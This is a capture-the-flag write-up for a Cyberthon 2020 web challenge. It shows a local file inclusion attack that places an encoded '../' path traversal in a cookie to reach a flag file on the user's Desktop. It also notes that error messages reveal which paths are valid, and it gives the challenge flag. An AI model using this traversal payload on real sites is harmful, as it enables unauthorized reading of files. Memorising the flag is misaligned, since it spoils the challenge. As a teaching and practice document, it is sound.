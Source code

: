 # Search high and low, you should. Yeesssssss.

## Description

Bob rushed out the site for ShoppingBaba's big Star Wars merchandise  sale so that he could go home and watch The Mandalorian. While he was at home, the attackers found a bug that allowed them to move outside the webserver and find his hidden secrets. His greatest secret was found in  the flag file found on his Desktop folder named babyyoda.

## Solution

The description hints strongly at some kind of local file inclusion exploit (see CSCG LFI). Go look for somewhere with a file path:

![Filepath Cookie](https://raw.githubusercontent.com/willi123yao/Cyberthon2020_Writeups/master/web_services/yoda/cookie.txt)

Ah, this cookie has a file path: `%2Fbabyyoda_old_method.jpg`. `%2F` is `/` in URL encoding. However, it points at the wrong place. Let's try adding a `../` _(cookie is `%2F..%2Fbabyyoda_old_method.jpg`)_:

![**Warning**:  include(/var/www/html/picture/../babyyoda_old_method.jpg): failed to open stream: No such file or directory in **/var/www/html/index.php** on line **15**](https://raw.githubusercontent.com/willi123yao/Cyberthon2020_Writeups/master/web_services/yoda/error.png)

The file is in the Desktop folder, to we can try this cookie (normal Linux filesystem):

```
%2F..%2F..%2F..%2F..%2Fhome%2Fbob%2FDesktop%2Fbabyyoda%2Fflag
  /..  /..  /..  /..  /home  /bob  /Desktop  /babyyoda  /flag
 get back to root    |          get to the flag 
```

Point to note: when the file path leads to a folder, it returns

```
failed to open stream: Success
```

If the file path is invalid, it will return

```
failed to open stream: No such file or directory
```

This can be used to identify valid and invalid paths.

## Flag

```
Cyberthon{3nufm0v1ng4rd}
```
